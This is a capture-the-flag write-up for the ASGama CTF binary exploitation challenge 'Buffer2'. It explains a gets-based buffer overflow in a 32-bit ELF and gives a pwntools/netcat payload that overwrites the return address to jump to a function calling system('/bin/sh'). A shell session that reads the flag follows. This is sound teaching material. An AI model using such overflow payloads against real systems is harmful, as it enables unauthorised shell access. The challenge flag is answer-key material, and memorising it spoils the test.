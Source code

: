 # __ASGama CTF__ 
## _Buffer2_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary Exploitation | 75 | l0l

**Description:** 

> Buffer 2

> nc asgama.web.id 40202
>
> [buf2](./buf2)

### buf2
```
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=422a2c2391911b03f182ed6a8a2b65ca200f276c, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### buf2 Disassembly
![main](disass_main.png)

![hah](disass_hah.png)

![debug](disass_debug.png)

Terlihat ada 3 fungsi utama di program ini: main, hah, debug. Fungsi main akan memanggil fungsi hah untuk meminta input user. Di fungsi hah, input diambil dengan menggunakan fungsi get (vulnerable terhadap buffer overflow). Sedangkan fungsi debug akan memanggil `system('/bin/sh')`. Sehingga kita dapat menyusun payload untuk overwrite return address dari fungsi hah agar return ke fungsi debug, sehingga kita mendapatkan shell. 

Offset address input kita dengan return address fungsi hah adalah 0x48+0x4. 

Address dari fungsi debug : 0x804851c


### Payload
`$ (python -c "from pwn import p32; print 'A'*(0x48+0x4)+p32(0x804851c)"; cat -) | nc asgama.web.id 40202`


### Result 
```
$ (python -c "from pwn import p32; print 'A'*(0x48+0x4)+p32(0x804851c)"; cat -) | nc asgama.web.id 40202
ls
buf2
flag
cat flag
GamaCTF{C0ntR0l_Fl0w_H1J4ckiNg}
```

### Flag 
GamaCTF{C0ntR0l_Fl0w_H1J4ckiNg}